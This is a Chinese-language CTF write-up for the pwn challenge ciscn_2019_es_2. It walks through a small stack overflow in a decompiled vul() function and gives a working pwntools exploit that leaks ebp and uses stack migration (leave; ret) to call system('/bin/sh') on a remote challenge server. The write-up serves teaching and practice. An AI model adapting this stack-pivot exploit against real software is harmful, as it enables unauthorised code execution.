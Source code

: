 ```yaml
---
layout: post
title:  ciscn_2019_es_2
date:   2021-02-06 00:01:01 +0300
image:  2021-02-06-birds.jpg
tags:   [ctf,Pwn,ciscn2019,StackMigration]
---
```


#### main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

### nul()

```assembly
int vul()
{
  char s; // [esp+0h] [ebp-28h]

  memset(&s, 0, 0x20u);
  read(0, &s, 0x30u);
  printf("Hello, %s\n", &s);
  read(0, &s, 0x30u);
  return printf("Hello, %s\n", &s);
}
```

该函数存在溢出，但是只能溢出0x30-0x28=0x8个字节。常规溢出的话，不能满足我们的要求。

可以看到程序中还有一个hack()函数，但是没有被调用过。

```assembly
int hack()
{
  return system("echo flag");
}
```

这里调用了system函数，但是显然system()中的参数对我们来说没用。

我们可以利用栈迁移，将栈迁移到栈上。

通过第一次read(),先泄露出ebp的地址。然后计算偏移量得到要迁移到的栈的地址。

```assembly
# -*-coding:utf-8-*-
from pwn import *

io = remote("node3.buuoj.cn",25040)

payload = "a"*0x28
# 把ebp前面的空间填满，避免下面的print遇到\x00截断，然后顺利得到ebp的地址。
io.send(payload)

io.recvuntil("Hello, ")
io.recv(0x28)

ebp = u32(io.recv(0x4))
print(ebp)
s = ebp - 0x38

system = 0x8048400
leave_ret = 0x8048562
payload = "aaaa"
# payload将system函数写第一个，
# 那么在用leave；ret劫持栈的时候要抬高4字节。
payload += p32(system) + p32(0) + p32(s+0x10) + "/bin/sh"
payload = payload.ljust(0x28, "\x00")
# 实现栈迁移
payload += p32(s) + p32(leave_ret)
io.sendline(payload)

io.interactive()
```

这里的0x38

![]({{site.baseurl}}/img/2021-02-06-addr.jpg)

0xffffcfd8-0xffffcfa0=0x38

从而得到变量s在栈上的地址。